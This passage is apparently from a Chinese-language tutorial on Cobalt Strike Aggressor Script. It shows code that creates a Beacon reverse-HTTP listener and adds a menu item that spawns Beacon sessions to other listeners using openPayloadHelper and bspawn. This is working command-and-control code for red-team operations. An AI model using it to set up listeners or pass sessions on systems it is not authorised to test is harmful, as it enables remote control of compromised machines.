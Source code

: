   按照这样的方式，我们使用 cna 配置一个 Beacon HTTP 的监听：

  语法：

  ```shell
  listener_creat_text("创建的名称","选择的payload",%("选择的payload需要填上的参数"));
  ```

  实践

  ```shell
  listener_create_ext("我的HTTP监听","windows/beacon_http/reverse_http",%(host=>"IP或者域名",port=>1080,beacons =>"IP或者域名"));
  printAll(listeners());
  println("创建成功！");
  ```

  由于我的端口被占用，我先删除一下：

  ![image-20201213222945393](/images/Aggressor-Script/image-20201213222945393.png)

  然后运行 cna 并查看：

  ![image-20201213223523971](/images/Aggressor-Script/image-20201213223523971.png)
  ![image-20201213223612288](/images/Aggressor-Script/image-20201213223612288.png)
  成功创建，我们这里的参数并没有全部按照啥要求填满，和我们平时 GUI 创建是一样的。在原文中提到过一个 代理问题 ，这里我没写，因为我感觉用的比较少

* 会话传递 

  在我们日常使用的时候，我们会将会话传递(Spawn)，比如将会话传递到 MSF 中，或者传递 SMB 到其他会话，下面是这个操作的源码：

  ```shell
  item "&Spawn" {
  	openPayloadHelper(lambda({
  		binput($bids, "spawn x86 $1");
  		bspawn($bids, $1, "x86");
  	}, $bids => $1));
  }
  ```

  这里面设计到多个 数据模型 ，我们一个一个的讲解。

  * openpayloadHelper： 打开我们拥有的 Listener 会话框：

  * bspawn：创建新的会话，需要传递一个会话ID
  
    ```shell
    popup beacon_bottom{
    	item("&会话传递",{openPayloadHelper(lambda({
    	bspawn($bid, $1);
  	println("我们传递的监听器是".$1)},# 
        $bid => $1));});
}
    ```
  
    当openpayladhelper打开存在的Listener会话时，他需要接受一个值，这个值是选定的监听器，然后这里将这个值传递给bspawn，bsapwn需要接受的第一个值也是选定的监听器（bspawn是生成一个新的会话），所以这里我们的将选择的监听器传递给bspawn就可以传递会话，这个地方的写法是固定的，单独的将openPayloadHelper使用是不可以的，但是baspwn是可以的，当运行上面的内容以后，我们可以查看`$1`的值，你会发现就是我们所选择的监听器：
    